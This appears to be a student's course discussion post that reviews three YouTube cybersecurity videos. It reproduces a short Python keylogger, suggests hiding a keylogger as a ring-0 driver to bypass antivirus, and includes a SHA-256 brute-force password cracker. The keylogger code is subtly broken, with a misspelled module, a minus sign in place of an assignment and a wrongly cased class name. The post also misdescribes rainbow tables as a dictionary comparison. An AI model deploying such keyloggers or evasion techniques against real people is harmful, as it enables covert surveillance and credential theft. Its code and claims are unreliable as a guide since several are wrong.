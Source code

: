 # W03 Discussion: Module 4 Cybersecurity Videos

## Python Key Logger
[Python Keylogger](https://youtu.be/mDY3v2Xx-Q4)

I chose three videos on Python and Cybersecurity instead of two from YouTube. The first video showed how to write a keylogger in Python. Interestingly, the presenter only needed 14 lines of code; however, the logger was not very stealthy.

The best way to deploy key-logging software is to write a driver that can be placed in the operating system's ring-0, bypassing antivirus and antispyware programs. The driver would have to be written in C instead of Python to execute as a driver, say, on Windows.

Score: 8:10

``` python
#!/usr/env python

from pyniput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logKey:
        try:
            char - key.char
            logKey.write(char)
        except:
            print("Error fetching the key")

if __name__=="__main__":
    listener = keyboard.listener(on_press=keyPressed)
    listener.start()
    input()
```

## Top 14 Python Libraries for Cybersecurity
[Top 14 Python Libraries for Cybersecurity](https://youtu.be/kUOx6klu170)

The second video needed more technical content. It acted more like a commercial for 14 of the top libraries used by cybersecurity professionals. It had an excellent music track in the background, but that could be its best attribute.

Score 5:10

## Python Cybersecurity Projects
[10 Python Cybersecurity Projects - Beginner to Advanced](https://youtu.be/kf1Zzcj2gV8)
    **01. Python Cybersecurity— Network Tracking using Wireshark and Google Maps:**
    **02. Python Cybersecurity - Nmap and Python Scripting (Information Gathering):** [Module 2](https://youtu.be/UZ6VDgTm3vw)
    **03. Python Cybersecurity For Beginners — Build Anonymous FTP Scanner**
    **04. Python Cybersecurity — How To Crack Passwords (Dictionary Attack)**
    **05. Python Cybersecurity — Find Deleted Files**
    **06. Python Cybersecurity — Zip File Password Cracker** [Module 6]()
    **07. Python Cybersecurity — Brute Force FTP**
    **08. Python Cybersecurity Project For Beginners - Build a Port Scanner**
    **09. Spam Detection using Machine Learning**
    **10. Python Algorithmic Trading In 8 Minutes 🔥 Fetch Stocks(Xpeng & Apple)**

The third video was an index to several more videos. I liked this video and followed a couple of the videos: the zip file cracker and Nmap. I thought this "series" was incredible.

Score 10:10

### The code for nmap and python
[python and nmap](https://github.com/nmmapper/python3-nmap)

### The code for zip cracking
[Python Cybersecurity Project -Zip File Password Cracker](https://youtu.be/NZp5O11qdwg)
- Side note: The presenter uses a rainbow table to crack. In my book that's not really cracking. However, it is clever if your password file is large enough. Rainbow tables are nice but they can't do much more than create a hash from the word list and compare that hash with the password mask. If they match violá. A better approach would be something like this:

``` python
import hashlib
import itertools
import string
import time

# Hash of the password we want to crack (for example, 'abc123' hashed with SHA-256)
target_hash = "e99a18c428cb38d5f260853678922e03abd83308d8c7c2822f5d09c3c840bde5"

# Character set (you can add uppercase letters, special characters, etc.)
charset = string.ascii_lowercase + string.digits

# Length of the password (in this example, we'll brute-force passwords of length 6)
password_length = 6

def generate_passwords(charset, length):
    """Generate all possible combinations of a given charset up to a certain length"""
    return itertools.product(charset, repeat=length)

def crack_password(target_hash, charset, length):
    """Attempt to brute-force a password by comparing hashed versions"""
    for attempt in generate_passwords(charset, length):
        attempt_password = ''.join(attempt)
        # Hash the current attempt using SHA-256
        hashed_attempt = hashlib.sha256(attempt_password.encode()).hexdigest()
        
        if hashed_attempt == target_hash:
            print(f"Password cracked! The password is: {attempt_password}")
            return attempt_password
        
    print("Password not found within the specified parameters.")
    return None

# Start the brute force attack
start_time = time.time()
crack_password(target_hash, charset, password_length)
end_time = time.time()

# Output the time taken
print(f"Time taken: {end_time - start_time} seconds")
```